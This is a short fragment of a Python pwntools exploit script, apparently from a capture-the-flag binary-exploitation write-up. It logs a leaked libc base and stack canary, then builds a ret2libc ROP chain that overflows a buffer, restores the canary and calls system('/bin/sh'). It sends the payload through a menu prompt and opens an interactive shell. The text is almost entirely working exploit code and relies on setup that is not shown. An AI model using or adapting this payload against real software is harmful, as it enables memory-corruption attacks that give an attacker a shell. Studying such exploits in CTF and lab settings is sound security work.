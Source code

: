 ```python=
info('Libc base: ' + hex(libc.address))
info('Canary leak: '+ hex(can))

# Cooking shell
# payload = p64(ret) + p64(prdi) + p64(next(libc.search(b"/bin/sh\0"))) + p64(libc.sym.system)
prdi = libc.address + 0x28795
ret = libc.address + 0x0000000000026a3e
payload = b'a'*24 + p64(can) + b'a'*8 + p64(ret) + p64(prdi) + p64(next(libc.search(b'/bin/sh\0'))) + p64(libc.sym.system)
for i in range(29):
    sla(b'> ',b'3')
sla(b'move: \n',payload)

p.interactive()
```